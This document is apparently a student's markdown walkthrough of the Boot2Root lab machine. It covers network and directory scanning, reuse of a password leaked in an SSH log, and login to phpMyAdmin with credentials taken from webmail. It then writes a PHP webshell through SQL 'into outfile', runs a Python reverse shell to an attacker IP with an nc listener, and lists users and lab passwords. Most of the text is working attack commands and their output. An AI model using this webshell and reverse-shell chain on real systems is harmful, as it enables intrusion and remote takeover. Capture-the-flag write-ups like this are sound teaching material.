



## nmap:
* scan the network :
```
┌──(kali㉿kali)-[~]
└─$ nmap --open -sV 10.11.100.0/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-14 07:30 EST
Nmap scan report for 10.11.100.71
Host is up (0.00061s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## dirb :
```
gobuster  dir --url https://{IP} --wordlist /usr/share/wordlists/dirb/common.txt --no-tls-validation
```

* DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.



## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 


## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"


export RHOST="IP";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in : https://IP/forum/templates_c/pyload.php/?cmd=(encoded pyload)


## list users 
```
laurie@borntosec.net@BornToSecHackMe:~$ getent passwd {1000..60000}
getent passwd {1000..60000}
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
```

$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
$


laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135


https://10.11.100.68/forum/templates_c/pyload.php/?cmd=export%20RHOST%3D%2210.11.100.68%22%3Bexport%20RPORT%3D3412%3Bpython%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27

Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5